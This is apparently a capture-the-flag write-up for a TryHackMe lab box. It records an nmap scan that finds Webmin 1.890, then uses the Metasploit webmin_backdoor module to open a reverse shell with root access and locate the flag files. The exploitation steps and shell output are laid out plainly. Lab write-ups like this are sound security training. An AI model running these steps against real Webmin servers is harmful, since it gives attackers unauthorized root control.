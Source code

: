 ```bash
# PLATFORM          . THM
# CTF NAME          . Source
# DESCRIPTION       . Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/source
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.249.33 -oN source
```

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b74cd0bde27b1b15722764562915ea23 (RSA)
|   256 b78523114f44fa22008e40775ecf287c (ECDSA)
|_  256 a9fe4b82bf893459365becdac2d395ce (ED25519)

10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- I had no idea what Webmin is, and, after some research, I found out that there was a backdoor implemented in 2 separate occasions, April 2018 (version 1.890) and July 2018, versions 1.900 - 1.920

- This made me check msfconsole for any actual exploits to see if they work, assuming the webserver has the "right" version of webmin installed.

```
search webmin

Matching Modules
================

{redacted / trimmed}

	7  exploit/linux/http/webmin_backdoor         2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor



msf6 > use 7

```

- After setting up the `RHOSTS`, `LHOST`, `SSL` to `True`, I ran the exploit and ...  

```
[*] Command shell session 1 opened ({redacted}:4444 -> 10.10.249.33:35886) at 2023-12-10 17:27:59 +0200


whoami
root
```

- Well, that was quick :) 

- The user flag is in `/home/dark/user.txt`
- The root flag is in `/root/root.txt`

